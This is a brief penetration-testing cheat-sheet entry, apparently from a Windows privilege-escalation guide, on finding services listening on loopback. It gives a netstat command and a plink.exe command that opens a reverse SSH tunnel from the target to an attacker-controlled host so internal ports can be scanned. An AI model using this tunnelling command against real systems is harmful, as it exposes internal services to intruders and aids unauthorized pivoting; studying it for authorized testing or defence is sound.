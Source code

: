# Loopback Services

Search for services listening on the loopback interface:

```
netstat -ano | findstr "LISTEN"
```

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

```
plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>
```

no we can scan the services on our own ports for vulnerabilities.
